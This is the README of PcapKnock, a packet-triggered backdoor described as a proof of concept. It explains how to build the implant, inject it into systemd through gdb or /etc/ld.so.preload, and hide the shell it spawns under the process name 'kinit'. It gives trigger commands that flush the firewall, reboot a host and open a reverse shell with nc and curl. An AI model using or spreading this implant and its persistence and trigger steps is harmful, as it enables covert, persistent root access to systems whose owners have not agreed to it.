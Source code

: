 PcapKnock
=========
PcapKnock listens for specially-crafted packets and either runs a command or
spawns a reverse shell based on the contents of the packets.  It is meant for
use as a PoC; there is no encryption or authentication.  It can either be built
as a standalone binary or an injectable library.

Tested on:
- OpenBSD
- FreeBSD (GhostOS)
- Linux (CentOS, Ubuntu)

For legal use only.

Building
--------
The [`build.sh`](./build.sh) script will try to produce binaries and shared
object files, but may well need tweaking.  On Linux, expect to have to wrestle
your distro's package manager.  On OpenBSD and FreeBSD, it just works.

The library and binaries will go into `built/$(uname -s)` in the source tree.
The built files are as follows:

Name                          | Purpose
------------------------------|--------
`pcapknock.standalone`        | "Normal" standalone binary.  Nohup it and run it in in the backgroud.
`pcapknock.standalone.daemon` | Standalone binary which forks itself into the background.
`pcapknock.standalone.debug`  | Standalone binary which prints debugging info.
`pcapknock.so`                | Injectable library
`pcapknock.pid1-injector`     | All-in-one injector targeting [init](#live-injection)
`pcapknock.systemd.so`        | Systemd-specific [preloadable](#persistent-injection) library
`systemd_dropper.sh`          | Dropper which [preloads](#persistent-injection) vi `pcapknock.systemd.so` via `/etc/ld.so.preload`


Usage
-----
Once pcapknock is running as root, all that's required to trigger it is a
packet containing either a command to run surrounded by `COMMAND...COMMAND` or
an address to which to call back with a shell surrounded with
`CALLBACK...CALLBACK`.

Trigger examples:
```bash
# Drop the Linux firewall
echo 'iptables -P INPUT ACCEPT; iptables -P OUTPUT ACCEPT; iptables -F' | nc -u <TARGET> 53

# Reboot a box
dig @target COMMANDrebootCOMMAND

# Call back on port 80
(sleep 1 && curl -sv -d 'CALLBACK<LOCALIP>:80CALLBACK' http://target) & nc -nvl 80
```

For either a callback or a command, a shell is spawned, disassociated from the
parent process, and run with the name (i.e. `argv[0]`) `kinit`.  The name may
be changed in [`config.h`](./config.h).

Configuration
-------------
Three compile-time preprocessor macros may be set when building to control
aspects of pcapknock's behavior.

Macro            | Effect
-----------------|-------
`DEBUG`          | Prints helpful debugging messages
`DAEMON`         | Causes the standalone binary builds to disassociate from the controlling terminal (What you probably want)
`PRELOADSYSTEMD` | Buid a library suitable for injection into systemd via `/etc/ld.so.preload`.

The compiled binaries and shared object files will have the above appended to
their names.

Further compile-time configuration can be performed by editing
[`config.h`](./config.h), but in general, this shouldn't be necessary.

There is no runtime configuration.

Linux Injection
---------------
On Linux, an few additional files are built for injecting into systemd either
on a running system or on boot vi `/etc/ld.so.preload`.

### Live Injection
The program `pcapknock.pid1-injector` loads `pcapknock.so` and gdb into memory
and uses gdb to shove pcapknock into pid 1, which will likely be systemd.
There should be a line something like
```
$1 = (void *) 0x559ea705d3f0
```
which indicates (likely) success.  If the number on the right is 0, something's
gone wrong.

In either case, expect a lot of mesages like
```
kernel:systemd[1]: segfault at 7ffff81e3f5f ip 00007ffff81e3f5f sp 00007ffff81e3f50 error 15 
```
Apparently systemd is happy segfaulting.  A "better" description of systemd can
be found in https://amzn.com/B075DYXZW1.

### Persistent Injection
Using `/etc/ld.so.preload`, pcapknock can be loaded into systemd from boot by
pointing it at `pcapknock.systemd.so`.  The library will also be loaded into
every other process, but it only sniffs if it finds itself in the process with
pid 1.  A convenient dropper, `systemd_dropper.sh`, will write the library to
disk as '/usr/local/sbin/libpk.so.4` and add it to `/etc/ld.so.preload`.
